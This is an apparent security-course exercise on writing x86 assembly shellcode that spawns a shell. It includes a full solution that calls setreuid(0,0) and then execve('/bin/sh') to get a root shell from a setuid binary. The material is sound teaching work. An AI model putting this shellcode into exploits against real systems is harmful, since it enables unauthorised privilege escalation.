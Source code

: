 # Shell-Spawning Code (Version. 1)

* (SPOILER) Reference: [0x2a4 Shell-Spawning Code](https://bista.sites.dmi.unipg.it/didattica/sicurezza-pg/buffer-overrun/hacking-book/0x2a0-writing_shellcode.html)

## TODO
1. Before you start, ensure that you are a non-root user!
2. Write a shellcode that spawns normal user shell on **x86**. Add some codes so that it can also spawn a root shell, when you are running a `setuid` root program with the root privileges! Compile the code.
3. Execute the program, and check if the program spawns a normal user shell correctly.
4. Switch your account to root, and do the Step 3 again. If it spawns a root shell successfully, go to the next!
5. With being granted root privilege temporarily, change the owner of the program as root.
6. With being granted root privilege temporarily, set the `setuid` bit.
7. Execute the program as a non-root user again, and check the user of the spawned shell with a command. Are you root or not?

### Constraints
1. Declare just one variable; define a string something like `fpath = "(PATH)XXXXAAAABBBBCCCC"`. You can adjust the masking alphabet part. (Example: /my/path/helloXABBCCCCD)
2. Use `fpath` for ALL arguments that load an address.

## Hints
<details>
  <summary><b>SPOILERS</b></summary>

### Hint 1: System Calls
    // NR = 70
    int setreuid(uid_t ruid, uid_t euid);

    // NR = 11
    int execve(const char *pathname, char *const _Nullable argv[],
                  char *const _Nullable envp[]);

### Hint 2: Section
1. `.data`: The data section

    a. String "/bin/shXXXX" (Note: Just an example for the hint! Might not be the final.)
   
2. `.text`: The code section

    a. `.global`: `_start` (The entry point of the program)
  
    b. `_start`

    * int setreuid(uid_t *ruid*, uid_t *euid*);
    * int execve(const char **pathname*, char **const* _Nullable *argv[]*, char *const _Nullable *envp[]*);

### Hint 3: Execution

1. Compile & Execute

   a. `gcc`: GNU Compiler. Need to generate code for IA-32 architecture.

   b. `ld`: GNU Linker. Need to output 32-bit code.

   c. Execute the output

</details>

## Solution
<details>
  <summary><b>SPOILERS</b></summary>

    .data
    filepath:
            .string "/bin/shXAAAABBBB"
    .text
    .global _start
    _start:
            movl $70, %eax
            movl $0, %ebx
            movl $0, %ecx
            int $0x80
    
            movl $0, %eax
            movl $filepath, %ebx
            movb %al, 7(%ebx)
            movl %ebx, 8(%ebx)
            movl %eax, 12(%ebx)
    
            movl $11, %eax
            leal 8(%ebx), %ecx
            leal 12(%ebx), %edx
            int $0x80

### `setreuid`
Linux manual page: [setreuid](https://man7.org/linux/man-pages/man2/setreuid.2.html)

* `setuid` root programs usually drop root privileges for the security purposes. Therefore, even if a shellcode has the `setuid` bit, if it runs only `execve`, it will always spawn a normal user shell for the normal user.

</details>

